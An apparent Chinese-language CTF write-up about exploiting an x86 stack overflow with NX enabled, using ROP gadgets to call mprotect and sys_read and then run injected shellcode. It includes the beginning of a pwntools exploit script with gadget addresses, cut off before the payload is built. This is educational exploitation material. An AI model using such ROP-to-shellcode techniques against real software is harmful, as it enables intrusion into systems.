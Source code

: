 <img src="/images/posts/keen/x86stackoverflow/1533827488981.png" >

gdb 调起来发现输入距离返回地址是0x48，但是可以输入0x80字节，明显的栈溢出
但是这个开了`NX`，并且把寄存器清空，`sys_read`和`sys_write`都是通过寄存器来来传值的，这就很麻烦了，但是其实可以通过布一些`gadget`来设置寄存器的值再来调用，想到这一点就很好做了，我的思路是，先`mprotect`一段地址，然后再调用sys_read，把shellcode写上去，再返回执行就ok了，下面简单讲一下mprotect的参数吧......
mprotect需要设置三个参数，第一个eax = 0x7d（125，系统调用号，注意x64跟x86的系统调用号都不一样的，注意查一下），然后是buf(要改权限的段起始地址)，len(长度)，num(权限，比如**7就是可读可写可执行**)

<img src="/images/posts/keen/x86stackoverflow/1533828055285.png" >

这里可以看下调用sys_read的具体方法，首先是系统调用号放在eax，参数顺序下去分别放在ebx，ecx，edx。

详细脚本：
```
#!/usr/bin/env python
from pwn import *
#context.log_level='debug'

p = process("./rop")
#p = remote("xxxxxxxxxxx",xxx)


#payload = padding + p32(ret_addr)
#pause()

padding = "A"*48
start_addr = 0x080480B8
pop_eax_ret = 0x0804819c
pop_ebx_ret = 0x0804819e
pop_ecx_ret = 0x080481a0
pop_edx_ret = 0x080481a2
int_80 = 0x080480f6
sys_read = 0x080480FD

```